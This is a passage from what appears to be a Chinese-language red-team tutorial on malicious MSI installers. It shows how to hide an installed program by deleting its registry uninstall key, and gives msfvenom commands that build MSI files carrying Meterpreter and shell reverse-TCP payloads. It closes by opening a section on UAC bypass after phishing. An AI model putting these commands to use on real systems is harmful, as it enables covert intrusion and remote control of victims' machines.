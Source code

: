 ```plaintext
    Comments    REG_SZ
    Contact    REG_SZ
    DisplayVersion    REG_SZ    0.0.1
    HelpLink    REG_SZ
    HelpTelephone    REG_SZ
    InstallDate    REG_SZ    20230605
    InstallLocation    REG_SZ
    InstallSource    REG_SZ    C:\Users\123\Desktop\
    ModifyPath    REG_EXPAND_SZ    MsiExec.exe /I{74A5A958-D2D3-424B-97D0-DF43E9345EDD}
    Publisher    REG_SZ    Test1
    Readme    REG_SZ
    Size    REG_SZ
    EstimatedSize    REG_DWORD    0x20
    UninstallString    REG_EXPAND_SZ    MsiExec.exe /I{74A5A958-D2D3-424B-97D0-DF43E9345EDD}
    URLInfoAbout    REG_SZ
    URLUpdateInfo    REG_SZ
    VersionMajor    REG_DWORD    0x0
    VersionMinor    REG_DWORD    0x0
    WindowsInstaller    REG_DWORD    0x1
    Version    REG_DWORD    0x1
    Language    REG_DWORD    0x409
    DisplayName    REG_SZ    23e23deeqwddeweqwde
```

删除即可隐藏。

```plaintext
reg delete HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall\{74A5A958-D2D3-424B-97D0-DF43E9345EDD} /f
```

不光可以手动制作，在 MSF 中也可以生成。

```plaintext
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Host> LPORT=<Port> -a x64 --platform Windows -f msi -o exploit.msi

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Host> LPORT=<Port> -a x64 --platform Windows -f msi -o evil.msi
```

有时间的话可以研究下 MSF 怎么生成的 msi，考虑把 Cobalt Strike Shell Code 写进去看怎么执行。

### 1.5 UAC Bypass

一般钓鱼正常点击 Payload 上线系统管理员账户，运行程序和执行命令发现没权限，或者是日常运行于软件你会发现弹窗让你选是还是否，一旦选否程序不会运行（长时间不处理会自动关闭确认窗口）。
